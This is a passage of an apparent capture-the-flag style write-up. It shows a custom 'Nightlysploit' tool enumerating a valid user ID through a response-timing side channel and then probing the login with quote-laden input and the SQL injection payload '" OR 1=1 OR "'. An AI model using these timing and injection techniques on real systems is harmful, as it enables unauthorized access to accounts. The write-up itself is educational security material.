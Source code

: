 ```
[+] BANGARANG!
[~] Test n°15: 0.201116
[+] BANGARANG!
[~] Test n°16: 0.218596
[+] BANGARANG!
[~] Test n°17: 0.216802
[+] BANGARANG!
[~] Test n°18: 0.215007
[+] BANGARANG!
[~] Test n°19: 0.222972
[+] BANGARANG!
[~] Test results: 3243 seems to be 100.000000% valid.
[+] User ID: 3243 doesn't seem to be a false positive.
Enter password (cancel with 'quit')
Nightlysploit $>
```

We can see a **big** difference between a bad user ID and a good user ID. (+0.15 seconds) If the network is *unstable*, we just have to raise the number of zeroes to compress.

Ok, we have a good user id, but we don’t have a password. Let’s see if we can enter a random password…

```
Nightlysploit $> nico
[~] Sending get_challenge
[~] Got challenge... Sending auth.
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
```

Ok, it doesn’t work. Let’s try with something more… **agressive**.

```
Nightlysploit $> "'��u("'�f"�ht"
[~] Sending get_challenge
[~] Got challenge... Sending auth.
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[+] Server answered :
```

Something happened! Maybe it’s the quotes… After trying a single quote, it seems that a double quote is making the server behave strangely. Could this be SQL injection?

```
Nightlysploit $> " OR 1=1 OR "
[~] Sending get_challenge
[~] Got challenge... Sending auth.
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[+] Server answered :
```
